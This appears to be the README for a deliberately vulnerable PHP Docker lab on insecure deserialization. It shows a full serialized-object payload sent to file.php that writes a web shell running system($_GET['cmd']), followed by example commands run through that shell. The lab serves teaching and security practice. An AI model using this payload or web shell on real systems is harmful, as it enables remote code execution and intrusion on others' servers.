 # Insecure Deserialization
tl;dr

User locally serializes some data and passes it to our app which uploads a shell.

## Files 

```
file.php
```
Blindly accepts anything and runs unserialize()

```
serialize.php
```
Generates a serialized exploit

## Installing

Git checkout this repo

```
cd into this repo
```

```
docker build -t insecure_deserialize:latest .
```

## Running

```
docker run -d insecure_deserialize:latest -p 33322:80
```

## Exploting

* First we serialize our payload with serialize.php
```
php serialize.php
```

* We then copy our payload and run it against our vulnerable site
* * If the payload executes the screen will return white
```
http://localhost:33322/file.php?u=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}
```

* We now have a simple cmd shell on our host and can execute away

```
http://localhost:33322/simple_shell.php?cmd=whoami
```
```
http://localhost:33322/simple_shell.php?cmd=ls -la
```

* Thanks
[1]https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
